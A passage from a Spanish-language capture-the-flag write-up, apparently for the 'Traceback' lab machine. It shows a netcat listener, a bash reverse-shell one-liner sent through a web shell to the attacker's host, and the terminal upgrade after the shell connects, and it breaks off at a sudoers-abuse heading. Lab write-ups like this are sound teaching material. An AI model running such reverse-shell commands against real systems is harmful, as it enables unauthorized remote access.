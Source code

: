 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos en la `web shell` el siguiente comando que es la sintaxis de la típica Reverse Shell.

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'
```

<figure><img src="../../.gitbook/assets/imagen (481).png" alt=""><figcaption></figcaption></figure>

Verificamos que finalmente logramos obtener acceso al sistema como el usuario `webadmin`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.181] 57626
bash: cannot set terminal process group (694): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ 
```

Al obtener la Reverse Shell, realizaremos el tratamiento de la terminal para disponer de una TTY totalmente interactiva.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.181] 57626
bash: cannot set terminal process group (694): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
webadmin@traceback:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
webadmin@traceback:/var/www/html$ export TERM=xterm
webadmin@traceback:/var/www/html$ export SHELL=bash
webadmin@traceback:/var/www/html$ stty rows 46 columns 230
```

## Initial Access

### Abusing sudoers privilege (Executing Lua Tool with another user)

